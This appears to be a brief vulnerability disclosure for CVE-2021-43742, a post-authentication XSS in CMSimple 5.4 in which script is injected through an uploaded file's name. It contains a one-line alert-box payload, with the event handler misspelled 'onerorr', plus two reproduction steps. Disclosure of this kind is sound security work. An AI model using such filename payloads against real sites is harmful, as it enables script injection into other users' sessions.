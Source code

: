 

<h1>CVE-2021-43742</h1>

```CMSimple 5.4```

Reported by S1lv3r

```Description :```

Post-auth XSS

```Version :```
CMSimple 5.4 Version

```Attack Type:```
Local

```PoC:```
``` javascript
> <img src='1' onerorr=alert('Silv3r')>s.php

```

```1-``` Go to uploading files section, Then write XSS payload on filename : <br/>


<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/REQ.png"  /><br/>


```2-``` Result <br/>


<img src="https://github.com/iiSiLvEr/CMSimple5.4-Vulnerabilities/blob/main/images/XSSPoc.png"  /><br/>



